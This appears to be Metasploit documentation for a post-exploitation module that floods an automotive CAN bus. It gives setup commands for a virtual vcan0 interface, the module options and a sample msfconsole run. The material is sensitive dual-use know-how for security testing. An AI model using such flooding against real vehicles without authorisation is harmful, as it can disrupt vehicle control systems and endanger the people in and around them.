 ## Introduction

CAN Flood is a post-exploitation module that floods a CAN interface for a number of rounds. Both the interface and the number of rounds are to be provided as inputs. An example list of frames also is part of the inputs, and sources the flooding at each round. The module therefore is general as it is parametric in the frame list.

## Verification Steps

First, start up a virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Then do the thing:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath trycanbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi trycanbus`
11. `run`
12. `use post/hardware/automotive/can_flood`
13. `set canbus vcan0`
14. `set session 1`
15. `run`

## Options

### CANBUS
Determines which CAN interface to use.

### FRAMELIST
Path of the file that contains the list of frames. Default is "/usr/share/metasploit-framework/data/wordlists/can_flood_frames.txt".

### ROUNDS
Number of executed rounds. Default is 200.

### SESSION
The session to run this module on.

## Scenarios

The user must know a list of frames that generate an effect on the car. This is because the module is general as it is parametric in the frame list.
You can test the module by setting a virtual CAN interface and then execute the commands, thus obtaining the underlying output:

```
msf > use auxiliary/server/local_hwbridge
msf auxiliary(server/local_hwbridge) > run
[*] Auxiliary module running as background job 0.

[*] Using URL: http://0.0.0.0:8080/trycanbus
[*] Local IP: http://10.0.2.15:8080/trycanbus
[*] Server started.
msf auxiliary(server/local_hwbridge) > use auxiliary/client/hwbridge/connect
msf auxiliary(client/hwbridge/connect) > set targeturi trycanbus
targeturi => trycanbus
msf auxiliary(client/hwbridge/connect) > run

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 03:17:55 -0400
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf auxiliary(client/hwbridge/connect) > use post/hardware/automotive/can_flood 
msf post(hardware/automotive/can_flood) > set canbus vcan0
canbus => vcan0
msf post(hardware/automotive/can_flood) > set session 1
session => 1
msf post(hardware/automotive/can_flood) > run

[*]  -- FLOODING -- 
[*] Post module execution completed
```
